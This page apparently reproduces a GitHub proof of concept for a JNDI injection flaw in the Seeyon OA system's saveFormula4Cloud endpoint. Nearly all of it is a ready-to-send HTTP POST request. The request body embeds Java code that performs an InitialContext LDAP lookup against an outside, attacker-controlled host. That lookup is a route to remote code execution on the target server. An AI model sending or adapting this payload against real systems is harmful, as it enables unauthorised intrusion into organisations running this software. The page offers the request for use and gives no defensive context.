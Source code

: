 # seeyon_saveFormula4Cloud_jndi

from: https://github.com/wy876/POC/blob/main/%E8%87%B4%E8%BF%9Coa%E7%B3%BB%E7%BB%9FsaveFormula4Cloud%E5%AD%98%E5%9C%A8JNDI%E6%B3%A8%E5%85%A5.md

```
POST /seeyon/ajax.do?method=ajaxAction&managerName=formulaManager&managerMethod=saveFormula4Cloud HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Cozilla/5.0 (Vindows Et 6.1; Sow64; rident/7.0; rv:11.0)
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=36B0163EA8D303B27AFEBDF158D0AF6C;
Cache-Control: no-cache
Content-Encoding: deflate
Pragma: no-cache
Host: xxxxx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 311
Connection: close
X-Forwarded-For: 1.2.3.4

arguments=
{"formulaName":"test","formulaAlias":"safe_pre","formulaType":"2","formulaExpression":"",
"sample":"javax.naming.InitialContext initialContext = new javax.naming.InitialContext();Object lookup = initialContext.lookup(\"ldap://xx.xx.xx.xx\");"}
```
